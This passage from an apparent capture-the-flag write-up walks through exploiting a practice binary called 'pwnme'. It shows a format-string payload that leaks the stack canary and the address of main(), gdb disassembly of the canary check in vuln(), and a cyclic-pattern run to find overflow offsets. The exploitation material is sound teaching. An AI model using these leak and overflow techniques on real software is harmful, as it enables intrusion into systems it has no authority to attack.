 What we know about stack canaries is they always end with `00`. In this result stack argument 13 stands out `f0ba1688f7960700` because its a bunch of randomness ending in a single null byte. 

Other than that, on my local system I see argument 11 looks like our binary's location in memory. Let's check these in gdb. In one terminal we get some valid values:

```bash
$ ./pwnme
How about creating a leak AND smashing a canary? %11$016lx %13$016lx
 000055dbd49d72f8 f0e6f72069309000
```

In another, I look first for the `000055dbd49d72f8` value. What does it point to?

```bash
$ gdb -p `pidof pwnme`
gdb-peda$ disass 0x00055dbd49d72f8
Dump of assembler code for function main:
   0x000055dbd49d72f8 <+0>:     endbr64 
   0x000055dbd49d72fc <+4>:     push   rbp
   0x000055dbd49d72fd <+5>:     mov    rbp,rsp
   0x000055dbd49d7300 <+8>:     mov    eax,0x0
   0x000055dbd49d7305 <+13>:    call   0x55dbd49d71e9 <init>
   0x000055dbd49d730a <+18>:    mov    eax,0x0
   0x000055dbd49d730f <+23>:    call   0x55dbd49d7282 <vuln>
   0x000055dbd49d7314 <+28>:    mov    eax,0x0
   0x000055dbd49d7319 <+33>:    pop    rbp
   0x000055dbd49d731a <+34>:    ret
```

ok the address of `main()` i can work with that!

If we look at `vuln()` we can find the instructions where the stack canary is checked:

```
gdb-peda$ disass vuln
Dump of assembler code for function vuln:
...
   0x000055dbd49d72e2 <+96>:    mov    rax,QWORD PTR [rbp-0x8]
   0x000055dbd49d72e6 <+100>:   xor    rax,QWORD PTR fs:0x28
   0x000055dbd49d72ef <+109>:   je     0x55dbd49d72f6 <vuln+116>
   0x000055dbd49d72f1 <+111>:   call   0x55dbd49d70b0 <__stack_chk_fail@plt>
...
```

So at `vuln() + 96` we `mov` whatever value we have on the stack where our canary should be into `RAX`, then we `xor` `RAX` with the real canary. If the canary is right `RAX` should be set to `0` and we pass the canary check.

To exploit this we need to know 2 offsets:

1. Where is the canary on the stack, how many bytes before we overwrite it?
2. Where is the return pointer on the stack, how many bytes until we overwrite that?

To get the canary location we can use gdb to set a breakpoint at `vuln() + 96` and see what part of a cyclic pattern is `mov`'d into RAX:

```bash
$ gdb ./pwnme
gdb-peda$ br *vuln + 96
Breakpoint 1 at 0x5555555552e2
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: pwnme 
How about creating a leak AND smashing a canary? %11$016lx %13$016lx 
 00005555555552f8 0caf6df18bc7a600 AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

...
Breakpoint 1, 0x00005555555552e2 in vuln ()
```